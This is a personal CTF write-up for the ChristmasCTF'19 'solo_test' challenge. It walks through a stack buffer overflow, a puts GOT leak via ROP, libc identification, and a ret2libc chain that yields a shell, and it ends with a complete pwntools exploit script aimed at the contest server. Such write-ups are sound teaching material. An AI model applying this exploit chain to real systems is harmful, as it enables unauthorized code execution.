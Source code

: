 ```yaml
---
layout: post
title: ChristmasCTF - Binary Explotation
excerpt: "The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience."
categories: [Writeups, ChristmasCTF'19]
tags: [pwn]
---
```


The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience.

### Pwn

#### Solo_test
```
Let's see if you are really solo :D  
Never lie!  
nc 115.68.235.72 1337  
  
Download
```

Running the file, we see this is a 64 bit executable which is not stripped.
```
solo_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9dd8736aa73681b63582f4636fd2ee3c7581152, not stripped
```
Running checksec, we see that NX is enabled which means we cannot execute shellcode on the stack.
```
Arch: amd64-64-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x400000)
```

My first step is to open the program in Ghidra and look at the main function.
```c
  banner();
  pain1();
  pain2();
  pain3();
  pain4();
  pain5();
  solo();
```
Looking at the functions in the main function carefully, it seems like the functions which start with pain just need to be fulfilled by responding correctly to the question. Each of the pain functions wanted a specific answer by checking through a ` strncmp(local_88,some string,2);` 

I started my exploit script by answering all of these questions.
```python
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	  
getRead()
```

After we successfully answer the questions, we reach the `solo()` function. 
```c
  undefined local_58 [80];
  
  puts("\nYou passed my solo test!");
  printf("Reward --> ");
  read(0,local_58,0x200);
  return;
```
It is clear in this function that we have a buffer overflow. More bytes are read into the local_58 buffer than is allocated for it. Just like normal, I used pwntools cyclic function to generate a string of length 512 and sent it to the binary. By attaching GDB, I could view the register values when it crashed. I grabbed the value in RSP which is used to calculate the offset in 64 bit binary exploitation and found the offset to be 88. As I've gone over how do this in a previous blogpost, I won't explain in detail how this is done.

Now we have a buffer overflow, how can we get a shell? We can achieve this through  a ROP Chain and using the system function found in libc and the string "/bin/sh" found in libc. The one problem we face is that we don't know what version of libc we are using. The challenge authors did not provide it. To overcome this, we can get a leak on a function in the GOT and search for our libc using a libc database. I chose the leak the puts function.

How do we leak the address of a function? We can call puts from the PLT and ask it to output the address of another function. This can be done using  a simple ropchain. To make things simpler, I loaded the ELF for processing by pwntools by doing `e = ELF("/solo_test")` Now, all I need to do to get the address of puts in the GOT which could be done using `e.got["puts"]`. 

If you are new to ROP Chaining, I recommend reading this article [here](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). My first payload uses a `pop rdi; ret;`  gadget to setup the arguments for the puts command. Unlike 32 bit in which arguments are put onto the stack, in 64 bit, arguments must be put in the correct register. After outputting the address of where puts was in the GOT, I returned to the `solo()` function in order to avoid segfaulting and so I could continue my exploit after I got a leak of libc. This is my complete first payload:
```python
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)

r.sendline(payload)
```

By sending this to the remote server, I was able to get a leaked address. I then adjusted it and formatted it using the following.
```python
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))
```

With a leaked address in hand, I used an [online libc database](https://libc.blukat.me/) to identify which version of libc the remote server was using. It found that libc 2.29 was being used. I then downloaded it and loaded it for use in pwntools by writing `libc = ELF("libc6_2.29-0ubuntu2_amd64.so")` 

After identifying the libc version, this was a standard ret2libc attack. First I calculated the libc base address.
```python
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))
```

The final step was to craft a ropchain using the found system and binsh in libc. This was done very easily by using pwntools.
```python
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system

r.sendline(payload)
```

One important note is that without the ret_gadget, my exploit would segfault. I believe this was due to a problem with the stack alignment. As I was working using the remote server and not a local copy of the binary, I wasn't able to truly identify the cause of the segfault. However, if you are working in 64 bit and seemingly randomly segfault, try adding a ret_gadget to fix 16 bit stack alignment.

Here is a complete copy of my exploit. Once executed, this gave a shell on the system. The last step was to find the flag in /home/solo_test/flag. 
```python
from pwn import *  
  
context.binary = "solo_test"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./solo_test")  
r = remote("115.68.235.72", 1337)  
e = ELF("./solo_test")  
libc = ELF("libc6_2.29-0ubuntu2_amd64.so")  
  
#gdb.attach(r)  
  
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
  
getRead()  
  
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)  
  
r.sendline(payload)  
r.recv()  
  
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))  
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))  
  
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system  
  
r.sendline(payload)  
  
r.interactive()
```

## Concluding thoughts on binary exploitation

This was my first time doing a ret2libc attack in competition. It was also my first time working to find out what version of libc a binary was using. It was great to be able to sucessfully exploit a program. I also learned the importance of stack alignment and the power of just adding a ret gadget. Overall, this CTF was a great learning experience. I hope to improve my binary exploitation skills and move from the stack towards the heap in the near future.
